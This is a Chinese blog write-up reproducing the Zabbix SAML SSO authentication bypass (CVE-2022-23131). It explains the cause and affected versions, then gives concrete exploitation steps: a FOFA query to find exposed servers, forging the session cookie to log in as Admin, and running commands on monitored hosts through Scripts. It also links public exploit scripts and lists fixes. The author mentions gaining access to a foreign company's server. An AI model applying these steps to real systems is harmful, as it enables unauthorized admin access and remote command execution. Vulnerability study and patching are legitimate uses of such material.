






# Zabbix 登录绕过漏洞复现（CVE-2022-23131） - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/15958470.html`](https://www.cnblogs.com/backlion/p/15958470.html)

## 0x00 前言

最近在复现 zabbix 的漏洞（CVE-2022-23131），偶然间拿到了国外某公司 zabbix 服务器。Zabbix Sia Zabbix 是拉脱维亚 Zabbix SIA（Zabbix Sia）公司的一套开源的监控系统。该系统支持网络监控、服务器监控、云监控和应用监控等。Zabbix Frontend 存在安全漏洞，该漏洞源于在启用 SAML SSO 身份验证（非默认）的情况下，恶意行为者可以修改会话数据，因为存储在会话中的用户登录未经过验证。 未经身份验证的恶意攻击者可能会利用此问题来提升权限并获得对 Zabbix 前端的管理员访问权限。

## 0x01 漏洞原因

在启用 SAML SSO 身份验证（非默认）的情况下，恶意攻击者可以修改会话数据来实现身份认证绕过。未经身份验证的恶意攻击者可能会利用此问题来提升权限并获得对 Zabbix 前端的管理员访问权限。

该漏洞存在于 index_sso.php 文件中，由于 index_sso.php 文件未调用 CEncryptedCookieSession::checkSign()方法对 cookie 进行校验，且客户端的 cookie 可被伪造。

从 index_sso.php 文件中可以看出，当伪造的 cookie 中存在 saml_data 时，获取 username_attribute 的数据，如果该用户真实存在则会生成一个 sessionid 从而实现身份认证绕过

## 0x02 漏洞影响

5.4.8

5.0.18

4.0.36

## 0x03  漏洞复现

fofa：app="ZABBIX-监控系统" && body="saml"

执行 curl -ksSIL http://xxx.com/


获取到 set-cookie 的值，然后先进行 url 解码，然后再进行 base64 解码

URL 解码：

eyJzZXNzaW9uaWQiOiIxNzFiODAwOTI4NDQ2MmUxZGRhODAyYWFjODk5MDI2YyIsInNpZ24iOiJ0eTZSZVkzVDRxVEdYenJseFM2ZlpyNTRhT3pCMHBhS25vWHBhZDR3MHdKc2lwNTJ2aUdndytDUlpqeVJyQUJ5WDk5bGhNMVVHbFM4cTRwNjBKb1wvUGc9PSJ9

Base64 解码：

{"sessionid":"171b8009284462e1dda802aac899026c","sign":"ty6ReY3T4qTGXzrlxS6fZr54aOzB0paKnoXpad4w0wJsip52viGgw+CRZjyRrAByX99lhM1UGlS8q4p60Jo\/Pg=="}



然后拼接字符串

{"saml_data":{"username_attribute":"Admin"},"sessionid":"171b8009284462e1dda802aac899026c","sign":"ty6ReY3T4qTGXzrlxS6fZr54aOzB0paKnoXpad4w0wJsip52viGgw+CRZjyRrAByX99lhM1UGlS8q4p60Jo\/Pg=="}

拼接之后在进行 base64 加密



然后在进行 URLEncode




* * *

## 执行命令



找到 Administration--> Scripts 创建新的脚本，这里我创建的 ifconfig




在监控中找到最新数据，然后筛选出来你想执行的主机组，点击主机名执行对应命令



```
或者
```

```
GitHub 漏洞利用脚本： 

```
https://github.com/L0ading-x/cve-2022-23131
```

```
https://github.com/Mr-xn/cve-2022-23131
```

执行脚本，Admin 为默认的高权限用户，获取其 session 值。 替换 cookie 中的 zbx_session 值为 payload，接着点击 Sign in with Single Sign-On (SAML)或者使用 EditThisCookie 对 cookie 值 进行替换成功绕过登录，进入系统。 
```

## 0x04 修复方法

1、禁用 SAML 身份验证

2、升级安全版本（https://support.zabbix.com/browse/ZBX-20350）